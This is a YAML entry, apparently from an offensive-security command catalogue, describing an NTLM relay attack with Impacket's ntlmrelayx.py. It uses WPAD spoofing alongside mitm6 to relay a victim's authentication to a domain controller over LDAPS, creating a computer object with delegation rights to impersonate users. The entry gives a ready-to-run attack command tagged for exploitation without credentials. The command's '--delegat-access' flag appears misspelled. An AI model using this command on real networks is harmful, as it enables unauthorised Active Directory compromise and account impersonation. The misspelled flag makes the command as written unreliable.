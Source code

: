 ```yaml
---
description: |
  Impacket's ntlmrelayx.py performs NTLM Relay Attacks, creating an SMB and HTTP server and relaying credentials to various different protocols (SMB, HTTP, LDAP, etc.).

  The below command will perform WPAD spoofing to force the victim machine to authenticate to the attacker controlled host. The command will then relay the authentication to create a new computer object and grant it delegation rights to impersonate users on the victim machine. This command should be used in conjunction with mitm6.

  Command Reference:

  	Target Domain Controller: dc.test.local

command: |
  python3 ntlmrelayx.py -t ldaps://dc.test.local -wh test-wpad --delegat-access
items:
  - No_Creds
services:
  - NTLM
  - LDAP
OS:
  - Linux
  - Windows
phases:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
  - https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
---
```

